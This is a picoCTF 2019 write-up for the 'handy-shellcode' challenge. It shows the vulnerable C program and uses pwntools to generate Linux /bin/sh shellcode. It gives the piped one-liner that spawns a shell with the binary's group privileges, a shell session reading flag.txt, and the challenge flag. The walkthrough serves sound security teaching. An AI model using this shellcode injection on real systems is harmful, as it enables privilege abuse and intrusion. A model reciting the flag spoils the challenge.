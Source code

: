 # handy-shellcode
50 points

### Description
*"This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source."*

### Solution
Here's a look at the source code provided:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

This one is actually pretty simple in execution, but we'll need to introduce a few new concepts to understand everything that is going on. We see that the program prompts the user for input, then creates a function pointer for that input and tries to execute it. If we give the program input that isn't executable, the program will run into a segmentation fault.

If we take a look at the directory that this program is in on the server, we see the flag file, but we don't have permission to read it.
```
$ cd /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb
$ ls
flag.txt  vuln  vuln.c
$ cat flag.txt 
cat: flag.txt: Permission denied
```
However, if we take a look at the permissions for the files in this directory, we can see that `flag.txt` is in the same permissions group as `vuln`. 
```
$ ls -l
total 656
-r--r----- 1 hacksports handy-shellcode_6     39 Sep 28  2019 flag.txt
-rwxr-sr-x 1 hacksports handy-shellcode_6 661832 Sep 28  2019 vuln
-rw-rw-r-- 1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you aren't familiar with how file permissions work in UNIX filesystems, you can learn more about it [here](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

So, we should take a hint from the problem. It asks if we can spawn a shell through the program to read `flag.txt`. Well, this is exactly what we are going to do.

First, we need to talk about **shellcode**. If you aren't familiar with the concept, a piece of shellcode is typically a malicious portion of code that a hacker wants to use as the [payload](https://en.wikipedia.org/wiki/Payload_(computing)) in exploiting a vulnerability.

In simple terms, when a C program is compiled, it is translated into binary machine code that the computer can actually understand. However, there is an intermediary step where the C source code is translated by the compiler into [assembly code](https://en.wikipedia.org/wiki/Assembly_language), which is then translated by an *assembler* into executable machine code.

We can actually write assembly ourselves that can be translated into hexadecimal, which will make it a valid, executable piece of code. This is the process by which shellcode is usually created. You can find a great introduction to shellcode [here](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) if you want to learn more about it.

As hackers, this problem makes our job **very** easy. Usually, we have to find creative ways to execute our payloads, but this program will do it for us! All we have to do is find the right shellcode.

There are a lot of great shellcode databases online, but I think the best is [shell-storm](http://shell-storm.org/shellcode/).

However, if you've checked out any of my other picoCTF walkthroughs, you may have learned that I like to do stuff with python when I can. For this problem, we're going to use one of the most useful python modules available to hackers: [pwntools](http://docs.pwntools.com/en/stable/).

The `pwn.shellcraft` module has a lot of useful code for generating shellcode, and it can be used to generate shellcode for many different operating systems and architectures.
```python
from pwn import shellcraft

print(shellcraft.linux.sh())
```

The code above will print out the actual *assembly* instructions for generating a shell on a linux operating system. Remember, we don't want assembly code, but rather *shellcode*.

We can use `pwn.asm` to convert assembly instructions to machine code:
```python
from pwn import shellcraft, asm

print(asm(shellcraft.linux.sh()))
```

Here's something like what you should've gotten.
<details>
  <summary>Shellcode:</summary>
  b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
</details>

If your output had a lot of random characters that don't look like this, don't worry, that just means python is printing out the actual bytes rather than the hex values. This is just dependent on your Python version. 

Speaking of Python version, you'll actually want to use Python2 for this because we want the actual bytes to be printed out and not the hex values. The reason the output is different between versions is because of a difference in how byte strings are handled and encoded in Python2 vs Python3. Just know that Python2 is typically preferred when trying to generate shellcode like this.

Using Python2 (which you may have been using before), your shellcode should look like this:
```
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
```

We now want this shellcode to be fed in as the input to `vuln`. If we are in the directory with `vuln` and `flag.txt` on the server, we can execute the python code above in one command using the python `-c` flag. We can then pipe this into `vuln`.
```
$ python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))" | ./vuln
```

However, you'll notice that instead of actually being able to use the shell that spawns, you're immediately brought back to your normal command-line prompt. This is a common issue we run into in situations like this. What's happening is that python gives the input to `vuln`, then python stops executing. This is bad because all of the input to `vuln` is going through python. So, when python stops executing, `vuln` stops trying to get input, even if the shell is spawned.

This is easy to fix. We just need to append another command that executes *after* the python command, but prompts for input. This will give us an input stream to be able to interact will the shell that we spawned.

The best command for this is `cat`, since when it is used with no arguments, it just waits for user input and then repeats it as output.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln
```

While you can't see the prompt, we are now in the shell that we spawned. We can use `id` to see that we now have the same group permissions as `flag.txt`. So, we can finally read it.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
id
uid=49513(flow2) gid=8875(handy-shellcode_6) groups=8875(handy-shellcode_6),1002(competitors),49514(flow2)
ls
flag.txt  vuln	vuln.c
cat flag.txt
```
**NOTE:** This won't work if you use Python3 because Python will pass `vuln` the hex values of the shellcode rather than the actual bytes. Make sure you run this using Python2.

And this should get you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
